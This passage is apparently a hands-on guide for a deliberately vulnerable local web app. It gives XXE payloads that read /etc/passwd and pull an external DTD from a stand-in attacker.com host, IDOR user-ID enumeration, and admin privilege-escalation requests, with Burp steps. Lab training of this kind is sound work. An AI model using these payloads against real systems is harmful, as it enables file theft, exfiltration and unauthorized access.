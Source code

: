 
### XML External Entities (XXE) Lab

**Lab URL:** `http://localhost:5000/api/vuln/xxe`

**Objective:** Exploit XXE vulnerabilities to read local files and perform SSRF attacks.

#### Step 1: Basic XXE File Reading
1. **Submit XML payload:**
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
   <root>
   <data>&xxe;</data>
   </root>
   ```
2. **Burp Action:** Intercept and modify XML requests
3. **Screenshot Location:** Save response showing file contents

#### Step 2: Out-of-Band XXE
1. **Use external DTD for data extraction:**
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">%xxe;]>
   <root>
   <data>test</data>
   </root>
   ```
2. **Screenshot Location:** Save evidence of external connection

---

### Access Control Lab

**Lab URL:** `http://localhost:5000/api/vuln/access-control`

**Objective:** Exploit access control flaws including IDOR and privilege escalation.

#### Step 1: Insecure Direct Object Reference (IDOR)
1. **Test user enumeration:**
   ```
   GET /api/vuln/access-control?userId=1 HTTP/1.1
   GET /api/vuln/access-control?userId=2 HTTP/1.1
   GET /api/vuln/access-control?userId=999 HTTP/1.1
   ```
2. **Burp Action:** Use Intruder to enumerate user IDs
3. **Screenshot Location:** Save responses showing different user data

#### Step 2: Privilege Escalation
1. **Test admin panel access:**
   ```
   GET /api/vuln/access-control?action=admin HTTP/1.1
   GET /api/vuln/access-control?role=admin HTTP/1.1
   ```
2. **Screenshot Location:** Save unauthorized admin access

---